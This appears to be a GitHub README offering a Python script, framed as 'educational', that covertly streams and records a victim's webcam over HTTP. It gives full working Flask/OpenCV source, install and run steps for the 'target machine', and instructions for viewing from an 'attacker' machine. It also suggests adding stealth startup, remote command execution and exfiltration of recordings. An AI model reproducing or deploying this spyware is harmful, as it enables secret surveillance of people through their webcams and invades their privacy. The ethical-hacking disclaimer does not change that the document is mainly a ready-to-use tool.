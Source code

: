 📷 Python Remote Webcam Stream & Recorder (Educational Use Only)

    ⚠️ Disclaimer:
    This tool is created for educational and ethical purposes only.
    Do NOT use this on any device you don't own or have explicit permission to test.
    Unauthorized use may be illegal and punishable by law.

🧠 Overview

This is a simple Python-based script that captures live video from a device’s webcam, streams it in real-time over the network, and records it locally on the device.

It can be used for:

    Ethical hacking labs

    Red Team simulations

    Educational malware development

    Remote surveillance in CTF-like environments

🛠 Features

✅ Live webcam streaming over HTTP
✅ Local video recording (.avi)
✅ Lightweight Flask server
✅ Works on Windows/Linux
✅ Perfect for lab testing (with a virtual victim machine)
🚀 How It Works

    The script uses OpenCV to access the webcam.

    It starts a Flask server that hosts the stream on http://<victim-ip>:8080.

    It simultaneously saves the stream as a local .avi video file on the target device.

📄 Source Code

from flask import Flask, Response
import cv2

app = Flask(__name__)

# Initialize webcam (0 = default camera)
cap = cv2.VideoCapture(0)

# Set up video recorder
fourcc = cv2.VideoWriter_fourcc(*'XVID')
out = cv2.VideoWriter('recorded.avi', fourcc, 20.0, (640, 480))

def generate_frames():
    while True:
        success, frame = cap.read()
        if not success:
            break
        else:
            # Save the frame
            out.write(frame)

            # Encode frame as JPEG
            ret, buffer = cv2.imencode('.jpg', frame)
            frame = buffer.tobytes()

            # Yield the frame for streaming
            yield (b'--frame\r\n'
                   b'Content-Type: image/jpeg\r\n\r\n' + frame + b'\r\n')

@app.route('/')
def video_feed():
    return Response(generate_frames(), mimetype='multipart/x-mixed-replace; boundary=frame')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)

💻 Requirements

Install dependencies on the victim machine:

pip install flask opencv-python

🌐 Usage

    Run the script on the target machine:

python run_on_target.py

On your attacker/viewer machine, open a browser and navigate to:

    http://<target-ip>:8080

    You will see a live stream from the victim’s webcam.
    The stream is also saved as recorded.avi on the victim device.

🔐 Optional Enhancements

You can extend this tool with:

    Audio capture (via pyaudio)

    Authentication (basic auth for viewing)

    Remote command execution

    Sending recorded files back to attacker

    Stealth (run in background on startup)

📚 Educational Intent

This project is a part of ethical hacking practice and malware simulation development.
It’s intended for:

    Penetration testing students

    Red Team operators

    CTF builders

    Cybersecurity researchers

Always use in controlled environments only.
👨‍💻 Author

Made with 💻 for cybersecurity learning.
Feel free to fork, improve, and experiment responsibly.
